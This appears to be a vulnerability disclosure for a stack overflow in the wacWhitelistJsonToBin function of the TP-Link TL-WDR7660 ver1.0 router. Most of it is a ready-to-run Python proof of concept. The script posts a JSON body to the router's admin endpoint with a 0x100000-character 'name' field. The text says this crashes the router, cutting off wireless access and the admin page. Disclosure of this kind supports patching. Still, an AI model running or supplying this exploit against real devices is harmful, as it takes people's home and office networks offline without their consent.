



**A stack overflow vulnerability exists in TL-WDR7660**

**version:  TL-WDR7660 ver1.0**

The wacWhitelistJsonToBin function handles the important parameter string name without checking it. It can lead to stack overflow vulnerabilities.



**Exploit a vulnerability in the wacWhitelistJsonToBin function by sending a carefully constructed HTTP request**
```
import requests
##You need to modify the cookie first
# Destination URL
url = "http://192.168.1.1/stok=U%2B%7D!TC%2BK6c)SHSupXt8E%5BcuX2k5*X2%5Dk/ds " #COOKIE需要对应捕获
# Request header
headers = {
    "Host": "192.168.1.1",
    "User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:92.0) Gecko/20100101 Firefox/92.0",
    "Accept": "application/json, text/javascript, */*; q=0.01",
    "Accept-Language": "en-US,en;q=0.5",
    "Accept-Encoding": "gzip, deflate",
    "Content-Type": "application/json; charset=UTF-8",
    "X-Requested-With": "XMLHttpRequest",
    "Origin": "http://192.168.1.1",
    "Referer": "http://192.168.1.1/"
}
# Request body - Vulnerability exploits json
data = {"wlan_access":{"table":"white_list","name":"a"*0x100000,"para":{"name":"test","mac":"00-00-00-00-00-01"}},"method":"add"}
# Send POST request
response = requests.post(url, headers=headers, json=data)
# Output response content
print(response.text)
```
**The following figure shows the result**

***(1)Before the above code is executed, the wireless device access control works normally, as shown in the figure below***



***（2）After running the above code, the server crashes directly, unable to connect wirelessly to the router, and unable to log in to the router's administrative page***


